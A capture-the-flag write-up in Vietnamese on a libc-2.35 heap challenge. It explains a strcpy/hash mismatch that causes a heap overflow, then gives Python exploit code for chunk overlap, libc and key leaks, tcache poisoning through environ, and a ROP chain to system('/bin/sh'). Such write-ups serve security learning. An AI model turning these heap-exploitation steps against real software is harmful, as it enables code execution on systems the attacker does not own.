









- 

- 

- Đây là 1 chall về `heap` khá đơn giản và nó được build trên `libc-2.35`. Ta sẽ điểm qua vài hàm như `create`, `hash` và `edit`

- 

- `create` sẽ tạo một `struct rune` có 3 giá trị là `hash_id`, `ptr`, `size`, sau khi nhập `name` nó sẽ `hash(name)` để lấy `id`, nếu như `rune` không tồn tại thì sẽ `create`, như vậy `name` sẽ quyết định `id` của `rune` và được lưu tại `hash_id`

- 

- hàm `hash` sẽ thực hiện cộng các giá trị trong `name` rồi đưa đi `& 0x3f` điều này để làm `val` không vựợt quá `0x3f`  

- Điểm bất thường nằm ở hàm `edit` khi nó sử dụng hàm `strcpy`, với hàm này nó sẽ dừng khi nó gặp `null`

- 

- Ta đã biết `hash` sẽ không bỏ qua `null` do đó với `name = b'\x00\x01` thì giá trị `hash_id = 1` nhưng ở đây `dest` được cập nhật lại `name` thông qua `strcpy(dest, src)` với `name` ở bên trên thì `dest = b'\x00'` đây là lý do khi nó `hash(dest)` sẽ trả về `0` đáng lẽ ban đầu `hash_id` của nó là `1` nếu như ta tạo bình thường với `create` nhưng giờ đây `hash_id` đã đổi, do đó tại `read` thì `size` sẽ được lấy của `rune[0]` chứ không phải `rune[1]`, điều này có thể gây ra lỗi `heap overflow`

- Sau khi tìm được lỗi ta sẽ tiến hành khai thác nó, vì là `libc-2.35` nên ta sẽ `overlap chunk` để leak `libc` rồi leak` stack` để `overwrite saverip` của `read`.

- ```python
  create(b'\x00', 0x60)
  create(b'1', 0x20)
  for i in range(10):
      create(str(chr(i+5)).encode(), 0x60)
      
  for i in range(6):
      create(str(chr(i+15)).encode(), 0x30)
  ```

-  Đầu tiên ta sẽ setup các `chunk` để thực hiện `overlap`

- ```python
  payload = b'a'*0x20 + p64(0x461)
  edit(b'1', b'\x00\x04', payload)
  choice(2, b'\x05')
  ```

- sau khi `overlap` thì ta sẽ giải phóng để đưa nó xuống `unsorted bin` nhằm leak `libc`

- 

- 

- ```python
  create(b'\x21', 0x20, b'\x01')
  choice(4, b'\x21')
  r.recvuntil(b'contents:\n\n')
  libc.address = u64(r.recv(6) + b'\x00'*2) - libc_off
  print(hex(libc.address))
  
  choice(2, b'\x10')
  payload = b'a'*0x34 + b'abcd'
  edit(b'\x0f', b'\x00\x02', payload)
  choice(4, b'\x02')
  r.recvuntil(b'abcd')
  key = u64(r.recv(5) + b'\x00'*3)
  print(hex(key))
  ```

- sau khi leak `libc` và `key` ta sẽ tiến hành leak `stack` thông qua `libc environ`

- ```python
  choice(2, b'\x12')
  print(hex(libc.sym['environ']))
  payload = b'a'*0x30 + p64(0x41) + p64((libc.sym['environ'] - 16) ^ key)
  edit(b'\x11', b'\x00\x01', payload)
  
  create(b'\x30', 0x30)
  create(b'\x31', 0x30, b'a'*4 + b'abcd')
  choice(4, b'1')
  r.recvuntil(b'abcd')
  stack = u64(r.recv(6) + b'\x00'*2)
  print(hex(stack))
  ```

- bây giờ ta có thể `overwrite saverip` của `read` để thực thi `system("/bin/sh")`

- ```python
  choice(2, b'\x30')
  choice(2, b'\x14')
  payload = b'a'*0x30 + p64(0x41) + p64(saverip ^ key)
  edit(b'\x13', b'\x00\x03', payload)
  ```

- 

- ```python
  create(b'2', 0x30)
  payload = flat(
      pop_rdi, next(libc.search(b'/bin/sh')),
      pop_rdi + 1,
      libc.sym['system']
  )
  create(b'3', 0x30, payload)
  ```

- 

  
